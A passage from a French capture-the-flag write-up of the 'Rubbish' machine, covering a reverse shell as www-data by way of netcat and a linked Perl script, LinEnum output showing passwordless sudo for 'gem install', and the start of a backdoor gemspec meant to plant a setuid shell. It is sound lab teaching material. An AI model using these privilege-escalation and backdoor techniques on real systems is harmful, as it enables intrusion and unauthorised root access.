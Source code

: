 Victoire ! Mais si on tente d'accéder à notre fichier il a disparu... Mais on le retrouve sous */cgi-bin* et correctement interprété 8-) Une tache cron se charge vraisemblablement de déplacer les fichiers.  

Rubbish
-------

Il manque quelques outils sur cette bécane mais il y a *wget* et *netcat* (la version sans l'option -e de mémoire). C'est suffisant pour récupérer un reverse shell en tant que *www-data* (via l'utilisation de [dc.pl](https://gist.github.com/islanddog/f5ad7636acf61fd963531ead7c784dc9) par exemple).  

J'ai lancé un *LinEnum* qui m'a remonté l'autorisation suivante :  

```plain
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on rubbish:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on rubbish:
    (autumn) NOPASSWD: /usr/bin/gem install *.gem --local --no-doc
```

On peut aussi noter la présence de deux process appartenant à root :  

```plain
root 719 0.0 0.2 36880 9336 ? S Jan04 0:01 /usr/bin/python3 /var/tmp/test.py
root 720 0.0 0.1 50884 8056 ? Sl Jan04 0:00 /usr/bin/ruby /opt/ssh_backup.rb
```

Je reviendrais plus tard sur le premier mais concernant le second le script n'est pas lisible comme on peut le remarquer en listant */opt* :  

```plain
-rwx------ 1 root   root   70 Jan  3 17:55 ssh_backup.rb
-rwx------ 1 autumn root 1766 Jan  3 16:03 ssh_key
```

Comment exploiter l'autorisation d'exécuter */usr/bin/gem* en tant que *autumn* ? Pour quelqu'un qui ne fait pas de Ruby comme moi j'ai fouillé un moment puis finalement réussi avec 3 fichiers.  

D'abord il faut un fichier *backdoor.gemspec* :  

```python
lib = File.expand_path('../lib', __FILE__)
$LOAD_PATH.unshift(lib) unless $LOAD_PATH.include?(lib)

Gem::Specification.new do |s|
  s.name        = 'backdoor'
  s.version     = '0.0.1'
  s.date        = '2016-03-17'
  s.summary     = "Backdoor!"
  s.description = "Put a setuid shell in tmp"
  s.authors     = ["Nicolas Surribas"]
  s.email       = 'nicolas.surribas@gmail.com'
  s.bindir      = "exe"
  s.files       = ["lib/backdoor.rb"]
  s.files       = Dir.glob("lib/**/*.rb")
  s.require_paths = ["lib"]
  s.homepage    = 'http://rubygems.org/gems/backdoor'
  s.license     = 'MIT'
end
```
